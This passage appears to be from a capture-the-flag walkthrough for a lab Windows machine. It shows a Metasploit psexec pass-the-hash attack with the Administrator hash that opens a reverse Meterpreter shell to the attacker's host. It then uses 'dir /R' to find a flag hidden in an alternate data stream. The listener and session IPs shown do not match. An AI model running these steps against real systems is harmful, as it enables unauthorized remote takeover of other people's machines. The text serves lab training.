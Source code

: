 ```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set rhost 10.10.10.63
rhost => 10.10.10.63
msf exploit(psexec) > set smbuser Administrator
smbuser => Administrator
msf exploit(psexec) > set smbpass 
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
smbpass => aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
msf exploit(psexec) > run

[*] Started reverse TCP handler on 10.10.14.106:4444 
[*] 10.10.10.63:445 - Connecting to the server...
[*] 10.10.10.63:445 - Authenticating to 10.10.10.63:445 as user 'Administrator'...
[*] 10.10.10.63:445 - Selecting PowerShell target
[*] 10.10.10.63:445 - Executing the payload...
[+] 10.10.10.63:445 - Service start timed out, OK if running a command or non-service 
executable...
[*] Sending stage (179267 bytes) to 10.10.10.63
[*] Meterpreter session 1 opened (10.10.14.146:4444 -> 10.10.10.63:49706) at 2018-05-18 
18:18:07 -0400

meterpreter > shell
Process 1088 created.
Channel 1 created.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,200,407,552 bytes free
```
While we now have Administrative privilege, there is one more step needed to get the 
`root.txt` file, which is hidden via a technique called alternative data streams. The command 
`dir /R` will reveal any files that have an alternative data stream.

```
C:\Users\Administrator\Desktop>dir /R
dir /R
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,200,407,552 bytes free
```